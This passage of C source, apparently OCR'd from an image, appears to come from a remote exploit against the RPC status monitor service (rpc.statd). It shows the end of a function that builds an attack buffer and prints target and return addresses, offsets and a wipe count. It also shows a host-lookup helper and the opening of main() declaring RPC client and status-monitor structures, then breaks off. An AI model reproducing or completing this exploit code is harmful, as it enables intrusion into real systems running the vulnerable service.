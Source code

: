  

    printf("buffer: %#lx length: %d (+str/+nul)\n", bufpos, strlen(buff));

    printf("target: %#lx new: %#lx (offset: %d)\n", retpos, dstpos, offset);

    printf("wiping %d dwords\n", wipe);

    return buff;

}

 

struct in_addr

getip(char *host)

{

    struct hostent *hs;

 

    if((hs = gethostbyname(host)) == NULL)

    {

        herror("gethostbyname()");

        exit(EXIT_FAILURE);

    }

 

    return *((struct in_addr *) hs->h_addr);

}

 

 

int

main(int argc, char **argv)

{

    int ch;

    char *buff;

 

    CLIENT *clnt;

    enum clnt_stat res;

    struct timeval tv, tvr;

    struct sm_name smname;

    struct sm_stat_res smres;

    struct sockaddr_in addr;

 
